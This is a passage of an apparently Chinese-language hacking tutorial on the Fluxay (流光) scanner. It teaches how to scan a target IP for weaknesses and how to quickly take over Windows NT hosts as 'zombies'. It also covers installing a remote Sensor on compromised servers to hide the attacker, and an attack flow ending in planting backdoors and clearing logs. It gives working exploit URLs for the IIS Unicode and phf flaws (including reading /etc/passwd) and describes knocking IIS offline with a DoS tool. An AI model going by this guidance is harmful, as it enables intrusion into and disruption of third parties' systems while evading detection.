- 3、在图3对话框窗口中，输入我们要破解的 IP，把起始地址和结束地址输入相同的 IP。目标系统：如果你知道，就选择相应的系统；如果选择 all，流光会自动判断，但毕竟影响时间。

如何判断目标系统呢？

最简单的就是 Ping 和浏览对方主页了。

查看对方主页，如果状态栏有本地 ASP 调用，基本可以判断是 Win2K 的系统；要是 PHP 调用，就可以认为是 UNIX 类系统。

下面 Ping 的结果证明这台主机是 Win2K Server，所以目标系统就选择：“Windows NT/2000”（图4）。


图4 判断目标系统

检测项目：因为是针对一台主机，当然获得的信息越多越好，所以检测项目就“全选”。

这是选择完的贴图（图5）：


图5 目标参数确定后的设置

- 4、设置扫描的端口，这个标准就行（图6）。


图6 设置扫描端口

- 5、POP3 探测设置，默认即可（图7）。


图7 POP3 探测设置

- 6、FTP 探测设置，默认即可（图8）。


图8 FTP 探测设置

- 7、SMTP 探测设置、IMAP 探测设置、Telnet 探测设置、CGI 探测设置，全部采用默认设置。图片类似上面几个，这里就不再抓取图片了。一直点击“下一步”到 CGI rules（CGI 规则设置）（图9）。


图9 CGI 规则

- 8、下面的 SQL 探测设置我们采用默认设置，IPC 探测设置取消“仅对 Administrators 组”。

“进行拆解”的选项，既然对一个主机进行扫描，当然越全面越好（图10）。


图10 IPC探测

9、IIS探测设置、MISC探测设置，也全部采用默认值。我们一直点击“下一步”到 plugins（插件设置）（图11）。


图11 插件设置

10、最后设置“猜解用户名字典、猜解密码字典、保存扫描结果的位置、扫描线程、网络选项”都用默认的了（图12），当然你可以根据具体情况更改，不要总是照搬。


图12 设置

11、这里需要我们选择流光主机（图13），选择本地就可以。如果是扫描远程的服务器，我们可以将 Sensor 模块远程安装到跳板上，然后本地就可以控制跳板进行远程扫描，这样非常有利地隐藏了我们自己。


图13 选择流光主机

12、探测中，出现了不少探测结果，图14。


图14 探测结果

13、这次的报告是最值得看的，我们先来对扫描结果进行简单分析一下（图15）：


图15 结果分析报告

## 三、速速获得肉鸡的方法：

约定：

- 要获得 NT 肉鸡。
- 使用 IPC、SQL、IDQ、Printer 来获取，都是可以快速得到管理权限的手段。


图16

这样在下面的扫描向导中，我可以只选择符合上面的选项了。看看图片（图16、17、18、19、20、21、22），和上面的比较理解一下。


图17


图18


图19


图20


图21


图22


图24 安装 Fluxay Sensor

图25 安装成功提示

不到一分钟就出来结果了，快！需要注意的就是在最后一步的“猜解的用户名、猜解的字典”这两个尽量自己把默认的字典内容修改一下。比如“密码字典”中只有 123456，会大大加快速度。

##### 四、Fluxay Sensor 使用

Fluxay Sensor 是最新增加的工具，这个工具我非常喜欢 :)

Sensor 的使用也非常简单，下面我用例子说说。先打开它的安装菜单（图23）：


图23 菜单选择安装 Fluxay Sensor

可以看到我们在上面的菜单中可以安装、更新、卸载、管理 Sensor（图23）。

通常我们把 Sensor 安装在远程的服务器上（图24），首先在拿到远程服务器的管理权限后，就可以开始安装了。安装成功后，会出现图25所示的提示。

Sensor 安装成功后，我们就可以通过管理菜单来进行管理了（图26）：


图26 Sensor 管理工具

以后在进行扫描的时候，就是使用高级扫描功能的时候，就可以选择安装了 Sensor 的主机进行。即保护了自己，又充分利用远程服务器的带宽（图26）。


图27 利用 Sensor 扫描

其中选项菜单还可以设置扫描完成后通过手机通知我们，或者 EMAIL 来把扫描结果给我们。当然我们也可以通过文件菜单中的选项来查看（图28、图29）：


我们还可以登录上远程的 Sensor 主机启用 TCP 转发，从而来更好地保护自己，这里就不多说了，自己看一下 help 就会明白。

学到这里，有人就产生了一个问题：流光是不是只会对付 Windows/NT 呢？当然不是，我现在只是举 NT 的例子。

### 流光基础教程（五）

#### 扫描结果分析利用

本节是来分析利用上节扫描的漏洞，并对网络攻击有更深的理解。扫描结果的正确分析利用，不仅对一个 Server 是致命的，也是一份比较好的安全检测报告。

## 一、目的和经验：

- 尝试分析并利用流光的扫描结果。
- 顺便学点相关的知识。

## 二、开始分析：

1、具备相关的系统知识，基础是必须的。比如 21 端口开放：想到了什么呢？wu_ftp 溢出，本地权限提升，溢出 root？这需要点经验了，但你至少应该想到去 cd/ 看看吧。其它还有好多，有时间多看看基础的书，这里只能说一下思路。

2、我们用 IPC$ 扫描和上篇的高级扫描，我们得到的许多结果，比如 idq、print、unicode、frontpage，现在来对这些结果进行分析利用一下。

先说说一般攻击流程：

- 确定攻击目标：这个要看我们的目的了。
- 搜集目标的相关资料。
- 根据获得的信息进行攻击。
- 获得最高权限。
- 留后门、清理日志。

现在我们已经能够获得对方的相关资料了，在 IPC 探测中后门和日志也说过了，所以本节主要说 3、4 步的内容。

3、具体攻击实施方法：

- 利用 URL 攻击的方法：这种方式用的很多，比如 unicode。通常是在 IE 地址栏通过提交修改的 URL，进行非法登录或者浏览等。
- 利用暴力破解：比较费时，但也有一定的技巧可寻，比如用 finger 后的用户列表进行简单探测。
- 利用系统的相关服务攻击：比如输入法漏洞+终端、Frontpage 扩展，形形色色的溢出等。

4、如何进行溢出呢？

一般来说是在网上找到针对漏洞相关的溢出源码，根据自己的需要进行修改，然后用 gcc 或者 c++ 等编译，最好用编译好的程序攻击它。绝大多数都是这样的格式：

program.exe -option ip

是不是觉得很难呢？

现在网上有许多好心的大虾都给你修改编译好了，你直接找来用就行。但是……你就不想多学点东西吗？

好了，不啰嗦了。先看看构造特殊 URL：（以 Unicode 为例）

什么是 Unicode？

Unicode 漏洞是因为在 Unicode 编码中，有这样一个编码方式 `%c1%hh %c0%hh`（0x00 <= 0xhh < 0x40）等等，而 IIS 却按这种理解。

```
把 "%c1%hh" 解释成 (0xc1 - 0xc0) * 0x40 + 0xhh

%c1%1c -> (0xc1 - 0xc0) * 0x40 + 0x1c = 0x5c = '\'
%c0%2f -> (0xc0 - 0xc0) * 0x40 + 0x2f = 0x2f = '/'
```

通过这两个小小的 “/” “\”，我们就可以构造特殊 URL 来深入到系统的根目录了，看看下图（图1、图2、图3）：


这只是个简单的例子，用 URL 的还有的是，比如 phf 漏洞：

```
http://www.XXXX.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd
http://www.xxxx.com/vti_pvt/service.pwd
```

暴力破解、简单探测，我在第一篇教程中就说了，自己找找看看。我们来说利用系统服务溢出的：

输入法漏洞需要 WIN2K 终端，终端也成了 Hacker 工具。  
Frontpage 扩展，需要 Frontpage，做网页的东西也成了黑客工具。  
Frontpage 扩展攻击：启动 Frontpage -> 文件 -> 打开站点 -> 输入站点的 IP，如果要口令就输入得到的口令。

是不是很简单呢？

看看溢出：这个是图形的，很简单，其实溢出程序多是命令行的（图4、图5）。


对方存在 shtml.dll 这个漏洞，如何攻击呢？先找找关于漏洞的说明，然后找相关的代码或者程序，比如我用的：dos.exe 211.21.22.11，对方 IIS 拒绝服务了，当掉！

好了，到现在为止，你应该对流光的基本使用有了个全面的了解。准确地说，你还应该发现点什么了，发现什么了呢？

- 凡是涉及到概念基础的时候，你潜意识中是跳过去不愿意看。
- 攻击多是用现成的工具实现的。用工具当然没什么不好，但你知道当溢出时，为什么要用 nc 监听本地端口么？

我们所涉及的攻击实例都是很具体直接的操作实验，很多应用可以举一反三，希望你学完后，能打开更多的思路。